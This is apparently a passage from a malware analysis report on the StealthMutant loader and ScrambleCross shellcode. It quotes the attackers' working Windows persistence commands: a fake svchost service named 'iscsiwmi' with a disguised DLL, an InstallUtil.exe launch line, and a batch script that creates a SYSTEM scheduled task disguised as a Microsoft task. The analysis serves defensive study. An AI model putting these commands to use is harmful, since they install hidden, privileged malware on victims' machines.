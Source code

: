 


12345678910

net  start "iscsiwmi"sc  stop iscsiwmisc  delete iscsiwmireg  add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v "iscsiwmi" /t REG_MULTI_SZ /d "iscsiwmi" /fsc  create "iscsiwmi" binPath= "$system32\svchost.exe -k iscsiwmi" type= share start= auto error= ignore DisplayName= "iscsiwmi"SC  failure "iscsiwmi" reset= 86400 actions= restart/60000/restart/60000/restart/60000sc  description "iscsiwmi" ""iSCSI WMI Classes That Manage Initiators, Ports, Sessions and Connections""reg  add "HKLM\SYSTEM\CurrentControlSet\Services\iscsiwmi\Parameters" /freg  add "HKLM\SYSTEM\CurrentControlSet\Services\iscsiwmi\Parameters" /v "ServiceDll" /t REG_EXPAND_SZ /d "$windir\Microsoft.NET\Framework64\v4.0.30319\System.Mail.Service.dll" /fnet  start "iscsiwmi"




The launching utility in turn uses the .NET InstallUtil.exe application in order to execute the StealthMutant image, which has the filename Microsoft.Service.Watch.targets, and providing it with the encrypted ScrambleCross shellcode as an argument from a file named MstUtil.exe.config. The utility itself is a basic C++ program that achieves the aforementioned goal by issuing the following command line using the WinExec API:





C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /ConfigFile=MstUtil.exe.config /U C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Service.Watch.targets




1

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /ConfigFile=MstUtil.exe.config /U C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Service.Watch.targets




The second way to execute StealthMutant is through the creation of a scheduled task via a Windows batch script file named schtask.bat, as outlined below:





@echo off
cd /d "%~dp0"
copy /Y Microsoft.Service.Watch.targets "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Service.Watch.targets"
copy /Y MstUtil.exe.config "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MstUtil.exe.config"
schtasks /create /TN "\Microsoft\Windows\UNP\UNPRefreshListTask" /SC ONSTART /TR "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /ConfigFile=MstUtil.exe.config /U C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Service.Watch.targets" /F  /DELAY 0000:02 /RU SYSTEM /RL HIGHEST
schtasks /run /TN "\Microsoft\Windows\UNP\UNPRefreshListTask"




123456
